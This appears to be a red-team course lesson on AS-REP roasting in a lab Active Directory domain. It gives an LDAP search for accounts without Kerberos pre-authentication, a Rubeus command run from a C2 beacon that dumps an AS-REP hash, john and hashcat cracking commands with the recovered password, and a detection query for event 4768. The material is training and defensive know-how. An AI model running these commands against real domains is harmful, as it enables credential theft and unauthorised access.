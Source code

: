 If a user does not have Kerberos pre-authentication enabled, an AS-REP can be requested for that user, and part of the reply can be cracked offline to recover their plaintext password.  This configuration is enabled on the User Object and is often seen on accounts that are associated with Linux systems.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/99f/931/1ff/preauth.png)

  

As with kerberoasting, we don't want to asreproast every account in the domain.

  
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
	[+] cn                : Squid Proxy
	[+] distinguishedname : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io
	[+] samaccountname    : squid_svc

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

[*] SamAccountName         : squid_svc
[*] DistinguishedName      : CN=Squid Proxy,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\squid_svc'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$squid_svc@dev.cyberbotic.io:BEDE491E0C9B3E932F9B4DF274AB059B$0947A85824870A9EA0B2C832B30D8B99BDA99F9451E9EB14AA0D9566674B32A10BE4954E6FB15DED54462D4AAAAE28DFB08C83EF0608DA6EEB9A08DBC79C06099D2B366BA5402A0ED60545B92B17882557CBB0FC700309751C51AF33F25A3103FA67DAAD9AD2154FE4171FBEFBE725AA1311CE50EFB8B87FF1BBCF5E97C496E08BA3CC4CA4F59820C4C27251686658C9F7EE52B43ED5A969A02273510AC7CCFB5DFE61E7A9D72E10B81E7B3ACBFDA0F3F058791E9A87D990871961D3BD9AEB40B9D0A1260094B17DCB8114DDBB19B5C2031F2906E527F96F1AFA62D907570E39E047659532F1FA043371DDF8D7FB9A5E5369A889A7BC
```
  

Use `--format=krb5asrep --wordlist=wordlist squid_svc` for john or `-a 0 -m 18200 squid_svc wordlist` for hashcat.
```
$ john --format=krb5asrep --wordlist=wordlist squid_svc
Passw0rd!        ($krb5asrep$squid_svc@dev.cyberbotic.io)
```
  

  **OPSEC**  
  
ASREPRoasting with will generate a 4768 event with RC4 encryption and a preauth type of 0.  
  
```
event.code: 4768 and winlog.event_data.PreAuthType: 0 and winlog.event_data.TicketEncryptionType: 0x17
```